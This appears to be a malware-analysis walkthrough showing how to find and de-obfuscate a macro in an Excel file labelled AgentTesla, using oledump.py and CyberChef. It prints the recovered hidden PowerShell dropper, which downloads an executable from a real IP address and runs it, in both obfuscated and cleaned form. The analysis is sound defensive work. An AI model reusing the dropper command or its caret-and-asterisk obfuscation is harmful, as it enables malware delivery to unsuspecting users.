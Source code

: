 **Sample output interpretation**
```
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```
- The capital `M` before an item indicates a macro stream — check these first.
- The `A` index is the OLE container; the numeric index indicates the stream.

**View a specific stream (example: stream 4)**
```bash
oledump.py agenttesla.xlsm -s 4
# Output will show the raw (often compressed) VBA data
```

**Decompress VBA macros for readability**
```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

---

## Decompressing and cleaning embedded macros (CyberChef)

**Observed obfuscated VBA snippet (example)**
```
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

**Technique to clean the string (CyberChef approach)**
1. Paste the raw Sqtnew value into CyberChef input.
2. Use _Find / Replace_ operation twice:
   - Replace `*` with an empty string.
   - Replace `^` with an empty string.
3. Result (readable PowerShell command):
```powershell
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```

**Notes about the recovered command**
- `-WindowStyle hidden` hides the PowerShell window from the user.
- `-executionpolicy bypass` ignores local script execution restrictions.
- `Invoke-WebRequest -Uri ... -OutFile $TempFile` downloads a remote executable.
- `Start-Process $TempFile` executes the downloaded file.
- This demonstrates a common pattern: macro → PowerShell → remote executable download → execution.

---